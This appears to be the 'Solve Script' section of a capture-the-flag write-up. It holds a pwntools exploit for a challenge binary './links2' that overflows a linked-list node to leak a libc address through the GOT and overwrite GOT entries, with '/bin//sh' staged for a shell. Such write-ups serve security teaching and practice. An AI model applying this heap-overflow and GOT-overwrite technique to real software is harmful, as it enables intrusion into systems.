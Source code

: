 ## Solve Script

{% code overflow="wrap" %}
```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break write_data
continue
'''.format(**locals())

# Binary filename
exe = './links2'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# View time (populate system() in GOT)
io.sendlineafter(b'>>>', b'3')

# Add 5 elements to list
for i in range(5):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', str(i).encode())
    io.sendlineafter(b'>>>', b'CHUNK_' + str(i).encode())

# Overflow element pointer with got.system address
# This is because we need libc leak for x64 stack align
io.sendlineafter(b'>>>', b'2')
io.sendlineafter(b'>>>', b'3')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', (b'\x00' * 64) + flat([elf.got.system, 0x51]))

# View list (leak libc.system() address)
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b'3: ')
system = unpack(io.recv()[4:10].ljust(8, b'\x00'))
info("leaked got_system: %#x", system)

# Modify element in list
io.sendline(b'2')
io.sendlineafter(b'>>>', b'1')
# Overwrite the link to point to GOT entry, 0x51 for next chunk size to keep list intact
io.sendlineafter(b'>>>', b'/bin//sh' + (b'\x00' * 56) + flat([elf.got.fgets, 0x51]))
```
